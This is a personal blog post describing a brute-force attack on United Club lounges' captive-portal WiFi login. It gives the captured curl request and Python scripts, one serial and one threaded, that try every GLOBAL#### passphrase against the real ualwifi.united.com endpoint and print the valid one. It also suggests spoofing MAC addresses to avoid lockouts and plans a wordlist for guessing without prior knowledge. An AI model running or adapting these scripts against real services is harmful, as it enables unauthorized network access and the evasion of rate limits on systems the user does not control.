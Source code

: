 ```yaml
---
title: "Bruteforcing United Club's WiFi password"
date: 2018-10-09 16:21:49
---
```

<link rel="stylesheet" href="/stylesheets/main.css"/>

I'm a frequent traveler and stay in lounges fairly often (shoutout [/r/churning](https://reddit.com/r/churning)!). Most lounges don't use traditional [WiFi Authentication](https://tools.ietf.org/html/rfc4764) - instead they rely on some form of captive gate. This allows them to provide user content, collect a more information on the users of the service, and rotate the password easily.

Every time I've been to a United Club lounge, the password has been of the form `GLOBAL####`, with a random last 4 digits. This only creates 10,000 unique possible passwords, which is a fairly small search space. Although I had the password in front of me I wanted to see if I could figure it out using other means.

<img src="/images/united-signin.png">
<p class="footnote">United Club captive page</p>


## Intercepting Network Requests

Chrome trivializes intercepting network requests. Normally I'd man-in-the-middle myself using Burp Suite or Charle's Proxy, but since this was just a site we can use the built in devtools network tab. 

Once submitting a random password the route shows up in devtools.

<img src="/images/united-network.png">
<p class="footnote">United Club password attempt route</p>

It looks like it'll return a `302` status if the password is incorrect and (I assumed) a `2XX` when it's correct. Devtools has a handy "Copy as Curl" function that allows you to copy any network request as a curl request just by right-clicking on it. 

<img src="/images/copyascurl.png">
<p class="footnote">Devtools Copy as Curl functionality</p>

```bash
curl 'https://ualwifi.united.com/auth/index.html/u' \
-H 'Connection: keep-alive' \
-H 'Pragma: no-cache' \
-H 'Cache-Control: no-cache' \
-H 'Origin: https://ualwifi.united.com' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'DNT: 1' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36' \
-H 'Sec-Metadata: cause="user-activated", destination="document", site="same-origin"' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' \
-H 'Referer: https://ualwifi.united.com/upload/custom/unitedclub_cp/login_united_club.html?errmsg=Authentication%20failed' \
-H 'Accept-Encoding: gzip, deflate, br' \
-H 'Accept-Language: en-US,en;q=0.9,it;q=0.8' \
-H 'Cookie: newHP=true; loc=refer=https://www.united.com/en/US/loyalty/account/activity; Locale=POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L; SearchInput={"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false};  D3Name=; D3Locator=; CPsession=http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169' \
--data 'user=GLOBAL1111&password=NULL&cmd=authenticate&Login=Sign+in' \
--compressed -v
```
<p class="footnote">Note: Session and User IDs removed</p>

Now that I had the curl request I could play around with the state and paremeters. It looks like the form is actually encoding the password as the username and the password as NULL.

As a sidenote, this **probably** means that any built in password bruteforcing checks with the library they're using *won't* work because we aren't trying the same username with a different password over and over again - we are just iterating over different usernames with the same password. I can't be sure of this but it 

Shell scripting is fine in a pinch but I wanted something more robust. There's a neat utility that'll convert a curl request to Python/Node/PHP [here](https://curl.trillworks.com). Now that I had python code that had valid state I could quickly iterate over all combinations.

```python
import requests

cookies = {
    'newHP': 'true',
    'loc': 'refer=https://www.united.com/en/US/loyalty/account/activity',
    'Locale': 'POS=US&Lang=en&UMID=6992bfc2-1acf-448e-8b3f-93f38d92a944&POSCODE=L',
    'SearchInput': '{"Origin":"YYZ","Destination":"WAS","Trips":null,"DepartDate":"Oct 05, 2018","ReturnDate":"Oct 08, 2018","searchTypeMain":"roundTrip","realSearchTypeMain":"roundTrip","awardTravel":"False","cabinType":"econ","awardCabinType":"awardEcon","numOfAdults":"1","numOfSeniors":"0","numOfChildren04":"0","numOfChildren03":"0","numOfChildren02":"0","numOfChildren01":"0","numOfInfants":"0","numOfLapInfants":"0","numberOfTravelers":"1","isFlexible":false,"FlexibleDays":3,"FlexibleDate":"Oct 05, 2018","isNonStop":false}',
    'D3Name': '',
    'D3Locator': '',
    'CPsession': 'http%253A%252F%252Fcaptive%252Eapple%252Ecom%252Fhotspot%2Ddetect%252Ehtml%26ip%3D172%2E26%2E15%2E169',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Origin': 'https://ualwifi.united.com',
    'Upgrade-Insecure-Requests': '1',
    'DNT': '1',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.45 Safari/537.36',
    'Sec-Metadata': 'cause="user-activated", destination="document", site="same-origin"',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    'Referer': 'https://ualwifi.united.com/upload/custom/unitedclub_cp/login_united_club.html?errmsg=Authentication%20failed',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'en-US,en;q=0.9,it;q=0.8',
}

data = {
  'user': 'GLOBAL1111',
  'password': 'NULL',
  'cmd': 'authenticate',
  'Login': 'Sign in'
}

response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
```

## Bruteforcing the login

Running the python above returns the exact same as the network request - a `302` redirect, indicating the passphrase was not correct.

I could write a quick wrapper to the request such that it would try all combinations 0000 to 9999.

```python
for i in range(1000,9000):
	padding = "0" * (4 - len(str(i)))
	attempt = padding + str(i)
	data = {
	  'user': 'GLOBAL' + attempt,
	  'password': 'NULL',
	  'cmd': 'authenticate',
	  'Login': 'Sign in'
	}
	response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
	if response.status_code != 302:
		print('Valid passphrase found: GLOBAL%s' % attempt)
```

Unfortunately this was pretty slow - it would serialize the attempts, which would not allow an attempt to be made until the previous network request had returned. A little threading magic (and ratelimiting) and we'd be on our way.

```python
import threading 
import time

def brute_force_pass(attempt):
	data = {
	  'user': 'GLOBAL' + attempt,
	  'password': 'NULL',
	  'cmd': 'authenticate',
	  'Login': 'Sign in'
	}
	response = requests.post('https://ualwifi.united.com/auth/index.html/u', headers=headers, cookies=cookies, data=data)
	if response.status_code != 302:
		print('Valid passphrase found: GLOBAL%s' % attempt)

for i in range(1000,9000):
	padding = "0" * (4 - len(str(i)))
	attempt = padding + str(i)
	threading.Thread(target=brute_force_pass, args=[attempt]).start()
	time.sleep(0.05) # sleep for 1/20th of a second so we don't start timing out or running out of sockets
```

Fortunately the United captive portal is running locally so the RTT is pretty low, which means that the server replies fairly quickly. At `0.05` seconds (plus overhead) per request we should be able to try the entire search space in just over 8 minutes. 

I left to go grab a rum and coke and by the time I came back it had finished.

<img src="/images/united-pass.png">
<p class="footnote">Daily United Club password</p>

And there you have it! Today's WiFi password is `GLOBAL9980`.

The best part about it was that the valid attempt automatically whitelisted that mac address - I didn't even need to type the password in myself.

## Protections and prevent brute forcing

I was worried I'd run into ratelimiting or start getting `429`'s from United. Fortunately that never happend, but I've run into similar services that will lock you out. A good way around this is to spoof your mac address - at that point, there is no way for a router to recognize that it's your device that has made all these attempts, and will allow you to keep doing so uninhibited. 

As an aside spoofing your mac address on the 2018 MacBook Pro's seems to not work any more, so if anyone knows how to do it I'd be very grateful (`sudo ifconfig en0 ether aa:bb:cc:dd:ee:ff` no longer works).

## Conclusions

This also would've been possible to do with BurpSuite and setting up repeater, but I didn't really want to go to that effort. This was a quick exercise in seeing how easy this would be if I was standing *outside* the lounge, without access to the password. Any online service that uses a captive portal is susceptible to this attack. One of these days I'm planning on building an airport-centric wordlist (i.e. Lounge, WiFi, &lt;airport name&gt;, &lt;airline name&gt;, current year, etc.) so that bruteforcing *without* any preexisting knowledge also becomes feasible.

Overall fairly successful for 10 minutes of work!